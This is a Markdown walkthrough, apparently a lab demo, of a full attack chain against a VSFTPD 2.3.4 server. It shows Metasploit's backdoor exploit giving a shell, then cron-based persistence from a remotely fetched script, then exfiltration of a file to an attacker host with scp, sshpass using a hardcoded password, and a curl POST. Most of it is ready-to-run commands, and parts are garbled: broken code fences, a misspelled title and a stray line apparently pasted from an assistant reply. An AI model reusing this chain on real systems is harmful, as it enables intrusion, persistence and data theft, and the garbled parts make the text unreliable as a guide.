 ## Metasplot Demo

In this tutorial, we will demonstrate how to use Metasploit to exploit a vulnerable VSFTPD server. The steps outlined below correspond to the commands provided, and we'll go through each one in order.

### 1. Scan the target with nmap:

Before starting the exploit, it's essential to gather information about the target. Use nmap to scan the target IP (192.168.101.54) for open ports and services:

```
nmap 192.168.101.54
```

If the scan results show that port 21 (FTP) is open, you can proceed to the next step.

### 2. Connect to the FTP service using netcat:

Use the following command to connect to the target IP's FTP service and check if it is running a vulnerable version of VSFTPD:

```
nc 192.168.101.54 21
```

If you see a response indicating that VSFTPD 2.3.4 is running, continue to the next step.

### 3. Start Metasploit:

Launch the Metasploit console by running the following command:

```
msfconsole
```

### 4. Search for the VSFTPD exploit:

In the Metasploit console, search for the VSFTPD exploit by running:

```
search vsftp
```

The search results should show the exploit/unix/ftp/vsftpd_234_backdoor module.

### 5. Use the exploit module:

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

### 6. List available payloads:

The command you provided, set payload 0, is incorrect. Instead, use the following command to list available payloads:

```
show payloads
```

Choose a payload from the list, such as cmd/unix/interact.

### 7. Set the payload:

```
set payload cmd/unix/interact
```

### 8. Show and set module options:

Use the following commands to show the module options, set the RHOSTS option, and verify the settings:

```
show options
```
```
set RHOSTS 192.168.101.54
```
```
show options
```

### 9. Run the exploit:

```
exploit
```

If the exploit is successful, you should receive a command shell on the target system.

### 10. Check the user context:

Run the following command to see the user context of the shell:

```
whoami
```

This will show the username of the account that the shell is running under.

### 11. Now we will demonstrate how Cozy Bear employs stealthy persistence techniques to maintain access to compromised systems. We will be focusing on creating a cron job that will execute a benign script at specified intervals or upon system startup.

Create a new file called create_cronjob.sh and copy the script content into it. Save the file and make it executable using chmod +x create_cronjob.sh.

```
http://raw.githubusercontent.com/jamesvthompson/demo/main/create_cronjob.sh
```
```
chmod +x create_cronjob.sh
```

Run the script with ./create_cronjob.sh. This will create the benign script (benign_cronjob.sh), make it executable, and set up a cron job to run it every minute.

```
sh create_cronjob.sh
```

Monitor the /tmp/cronjob.log file for updates by running cat /tmp/cronjob.log.

```
cat /tmp/cronjob.log
```
### 12. Now we will demonstrate data exfiltration from a compromised Linux system, simulating how Cozy Bear could extract sensitive information after gaining access to a target. 

Here's how to securely transfer a file using scp:

Make sure that the remote machine has an SSH server running and that you have the necessary credentials (username and password or key pair) to access it.

Use the scp command on the local machine to transfer the file. Replace <remote_user>, <remote_ip>, and <remote_directory> with the appropriate values for your setup:

``
scp /tmp/cronjob.log kali@192.168.101.51:/tmp/received_cronjob.log
```
sshpass -p 'kali' scp /tmp/cronjob.log kali@192.168.101.51:/tmp/received_cronjob.log

curl -X POST -H "Content-Type: application/octet-stream" --data-binary "@/tmp/cronjob.log" http://192.168.101.51:8080/upload


For example, if the remote user is user1, the remote IP is 192.168.101.51, and you want to save the file in the /home/user1 directory:

The scp command will prompt you for the password if you're using password-based authentication or use the appropriate key pair if you're using key-based authentication. After successful authentication, the file will be securely transferred to the remote machine.
